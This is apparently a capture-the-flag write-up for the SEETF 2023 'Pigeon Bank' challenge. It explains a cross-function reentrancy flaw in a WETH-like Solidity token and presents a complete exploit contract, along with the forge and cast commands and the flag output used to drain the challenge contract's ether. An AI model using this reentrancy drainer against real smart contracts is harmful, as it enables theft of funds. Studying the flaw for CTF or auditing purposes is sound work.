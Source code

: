 # SEETF 2023 - Pigeon Bank [6 solves / 494 points] [First blood 🩸]

### Description
```
The new era is coming. Pigeons are invading and in order to survive, the SEE Team created PigeonBank so that people can get extremely high interest rate. Hold PETH to get high interest. PETH is strictly controlled by the SEE team to prevent manipulation and corruption.

nc win.the.seetf.sg 8550
```

Our goal is to drain ether from PETH contract
```solidity
    function isSolved() external view returns (bool) {
        return (peth.totalSupply() == 0) && (address(msg.sender).balance >= 2500 ether);
    }
```

Setup contract has 2500 ether of PETH token, PETH contract has 2500 ether and we have 10 ether initially

```
# cast call --rpc-url http://win.the.seetf.sg:8549/49aa0b6c-9da2-4101-ada7-423123b1ef10 0x0C3B3C64bd2c1a8ddEf2976F02D981A475262F4c "balanceOf(address)(uint256)" 0x3Eec500Fe20CC4A62633AA8ABF508eE0C08607c0
2500000000000000000000
```
```
# cast balance --rpc-url http://win.the.seetf.sg:8549/49aa0b6c-9da2-4101-ada7-423123b1ef10 0x5D2Ad70D5CB12794345325A6b1283E2fB203F4B2
10000000000000000000
```


PETH is just like WETH, but some of its function has onlyOwner modifier

```solidity
    function deposit(address _userAddress) public payable onlyOwner {
        _mint(_userAddress, msg.value);
        emit Deposit(_userAddress, msg.value);
        // return msg.value;
    }

    function withdraw(address _userAddress, uint256 _wad) public onlyOwner {
        payable(_userAddress).sendValue(_wad);
        _burn(_userAddress, _wad);
        // require(success, "SEETH: withdraw failed");
        emit Withdrawal(_userAddress, _wad);
    }

    function withdrawAll(address _userAddress) public onlyOwner {
        payable(_userAddress).sendValue(balanceOf[_userAddress]);
        _burnAll(_userAddress);
        // require(success, "SEETH: withdraw failed");
        emit Withdrawal(_userAddress, balanceOf[_userAddress]);
    }
```

But we can still call them through the pigeon bank

```solidity
    function deposit() public payable nonReentrant {
        peth.deposit{value: msg.value}(msg.sender);
    }

    function withdraw(uint256 wad) public nonReentrant {
        peth.withdraw(msg.sender, wad);
    }

    function withdrawAll() public nonReentrant {
        peth.withdrawAll(msg.sender);
    }
```

It has nonReentrant modifier, but it does not protect against cross function or cross contract reentrancy

withdrawAll() does not follow checks-effects-interactions pattern
```solidity
    function withdrawAll(address _userAddress) public onlyOwner {
        payable(_userAddress).sendValue(balanceOf[_userAddress]);
        _burnAll(_userAddress);
        // require(success, "SEETH: withdraw failed");
        emit Withdrawal(_userAddress, balanceOf[_userAddress]);
    }
```

When it is sending value to _userAddress, it's calling _userAddress, and _userAddress can transfer all of it's tokens to another address to prevent its tokens being burnt

As burnAll will just burn all of the _userAddress's balance after the external call
```solidity
    function _burnAll(address _userAddress) internal {
        _burn(_userAddress, balanceOf[_userAddress]);
    }
```

So, we can just keep doing this to withdraw ether from PETH contract

### Exploit contract

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import "./Setup.sol";

contract Exploit2 {
    PETH public peth;
    address public exploit;
    
    constructor(PETH _peth) {
        peth = _peth;
        exploit = msg.sender;
    }
    
    function sendBack() public {
        peth.transfer(exploit, peth.balanceOf(address(this)));
    }
}

contract Exploit {
    PigeonBank public bank;
    PETH public peth;
    Setup public setup;
    address public owner;
    Exploit2 public exploit2;
    bool public s = true;
    
    constructor(address _setup) payable {
        owner = msg.sender;
        setup = Setup(_setup);
        bank = setup.pigeonBank();
        peth = setup.peth();
        exploit2 = new Exploit2(peth);
        require(msg.value == 5 ether, "msg.value need to be 5 ether");
        bank.deposit{value: msg.value}();
    }
    
    function exploit() public {
        for (uint i; i < 100; ++i) {
            bank.withdrawAll();
            exploit2.sendBack();
        }
    }
    
    function withdrawRemainingAndSendToOwner(uint256 amount) public {
        bank.withdraw(amount);
        exploit2.sendBack();
        payable(owner).call{value: address(this).balance}("");
    }
    
    function setS(bool _s) public {
        s = _s;
    }
    
    fallback() external payable {
        if (s) {
            peth.transfer(address(exploit2), peth.balanceOf(address(this)));
        }
    }
}
```

First we can just get address of PETH and pigeon bank from setup contract

```
cast call 0xB453faF8b24c209f7cB401B8bC63C8963FfBfabf "pigeonBank()(address)" --rpc-url http://win.the.seetf.sg:8549/6f098c9d-b048-4330-865c-cce1768e1d36
0x7C0011474bc3a313Ff5810Bf8658ad7303305944

cast call 0xB453faF8b24c209f7cB401B8bC63C8963FfBfabf "peth()(address)" --rpc-url http://win.the.seetf.sg:8549/6f098c9d-b048-4330-865c-cce1768e1d36
0x2B771DeDA9f101fe8CB0993Ea8b7277a0ec6113d
```

Then just deploy the exploit contract

```
forge create ./src/exploit.sol:Exploit --value 5000000000000000000 --private-key <key> --constructor-args 0xB453faF8b24c209f7cB401B8bC63C8963FfBfabf --rpc-url http://win.the.seetf.sg:8549/6f098c9d-b048-4330-865c-cce1768e1d36
```

Then just keep calling the exploit() function
```
cast send 0xB00eF71Fa0E808e74De98A07527F4C155A4AdcD4 "exploit()" --private-key <key> --rpc-url http://win.the.seetf.sg:8549/6f098c9d-b048-4330-865c-cce1768e1d36
```

After a small amount is remaining, we can just disable the reentrancy and withdraw remaining and send the ether to ourselves from the exploit contract
```
cast send 0xB00eF71Fa0E808e74De98A07527F4C155A4AdcD4 "setS(bool)" false --private-key <key> --rpc-url http://win.the.seetf.sg:8549/6f098c9d-b048-4330-865c-cce1768e1d36

cast send 0xB00eF71Fa0E808e74De98A07527F4C155A4AdcD4 "withdrawRemainingAndSendToOwner(uint256)" 5000000000000000000 --private-key <key --rpc-url http://win.the.seetf.sg:8549/6f098c9d-b048-4330-865c-cce1768e1d36
```

```
# nc win.the.seetf.sg 8550
1 - launch new instance
2 - kill instance
3 - acquire flag
action? 3
uuid please: 6f098c9d-b048-4330-865c-cce1768e1d36

Congratulations! You have solve it! Here's the flag: 
SEE{N0t_4n0th3r_r33ntr4ncY_4tt4ck_abb0acf50139ba1e468f363f96bc5a24}
```
